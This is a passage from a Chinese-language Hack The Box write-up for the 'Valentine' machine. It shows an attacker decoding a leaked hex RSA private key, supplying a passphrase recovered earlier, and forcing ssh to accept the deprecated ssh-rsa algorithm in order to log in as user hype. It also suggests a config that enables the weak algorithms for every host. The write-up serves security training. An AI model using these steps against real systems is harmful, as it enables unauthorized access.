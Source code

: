 ```shell
```

可以看到是一个RSA私钥，接下去用ssh进行连接

## 初始shell

对hype_key进行转码，并通过ssh进行连接

```shell
┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ xxd -r -p hype_key &gt; hype_key.rsa

┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ chmod 600 hype_key.rsa

┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ ssh -i hype_key.rsa hype@10.10.10.79
Enter passphrase for key &#39;hype_key.rsa&#39;: 
```

这里私钥有密码，想到了之前decode中获取的字符串：heartbleedbelievethehype

```shell
┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ ssh -i hype_key.rsa hype@10.10.10.79
Enter passphrase for key &#39;hype_key.rsa&#39;: 
sign_and_send_pubkey: no mutual signature supported
hype@10.10.10.79&#39;s password: 
```

这里有个报错，因为新版本的ssh不再支持一些弱加密算法，所以如果要用的话需要手动指定`-o PubkeyAcceptedKeyTypes=&#43;ssh-rsa`。

```shell
┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ ssh -i hype_key.rsa hype@10.10.10.79 -o PubkeyAcceptedKeyTypes=&#43;ssh-rsa
Enter passphrase for key &#39;hype_key.rsa&#39;: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release &#39;14.04.5 LTS&#39; available.
Run &#39;do-release-upgrade&#39; to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)
hype@Valentine:~$ 
```

这里也可以修改SSH配置文件，在文件末尾追加以下内容

```shell
Host *
    PubkeyAcceptedKeyTypes=&#43;ssh-rsa
    HostKeyAlgorithms=&#43;ssh-rsa
```
